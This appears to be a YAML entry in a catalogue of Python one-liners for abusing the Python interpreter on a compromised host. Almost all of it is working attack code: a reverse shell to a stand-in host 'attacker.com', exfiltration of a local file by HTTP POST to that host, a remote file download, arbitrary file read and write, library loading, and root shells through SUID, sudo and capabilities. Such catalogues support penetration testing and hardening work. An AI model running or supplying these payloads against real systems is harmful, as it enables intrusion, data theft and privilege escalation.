 ```yaml
---
description: The payloads are compatible with both Python version 2 and 3.
functions:
  execute-interactive:
    - code: python -c 'import os; os.system("/bin/sh")'
  reverse-shell-interactive:
    - description: Run ``socat file:`tty`,raw,echo=0 tcp-listen:12345`` on the attacker box to receive the shell.
      code: |
        export RHOST=attacker.com
        export RPORT=12345
        python -c 'import sys,socket,os,pty;s=socket.socket()
        s.connect((os.getenv("RHOST"),int(os.getenv("RPORT"))))
        [os.dup2(s.fileno(),fd) for fd in (0,1,2)]
        pty.spawn("/bin/sh")'
  upload:
    - description: Send local file via "d" parameter of a HTTP POST request. Run an HTTP service on the attacker box to collect the file.
      code: |
        export URL=http://attacker.com/
        export LFILE=file_to_send
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r, urllib.parse as u
        else: import urllib as u, urllib2 as r
        r.urlopen(e["URL"], bytes(u.urlencode({"d":open(e["LFILE"]).read()}).encode()))'
    - description: Serve files in the local folder running an HTTP server.
      code: |
        export LPORT=8888
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import http.server as s, socketserver as ss
        else: import SimpleHTTPServer as s, SocketServer as ss
        ss.TCPServer(("", int(e["LPORT"])), s.SimpleHTTPRequestHandler).serve_forever()'
  download:
    - description: Fetch a remote file via HTTP GET request.
      code: |
        export URL=http://attacker.com/file_to_get
        export LFILE=file_to_save
        python -c 'import sys; from os import environ as e
        if sys.version_info.major == 3: import urllib.request as r
        else: import urllib as r
        r.urlretrieve(e["URL"], e["LFILE"])'
  file-write:
    - code: python -c 'open("file_to_write","w+").write("DATA")'
  file-read:
    - code: python -c 'print(open("file_to_read").read())'
  load-library:
    - code: python -c 'from ctypes import cdll; cdll.LoadLibrary("lib.so")'
  suid-enabled:
    - code: ./python -c 'import os; os.system("/bin/sh -p")'
  sudo-enabled:
    - code: sudo python -c 'import os; os.system("/bin/sh")'
  capabilities-enabled:
    - code: ./python -c 'import os; os.setuid(0); os.system("/bin/sh")'
---
```


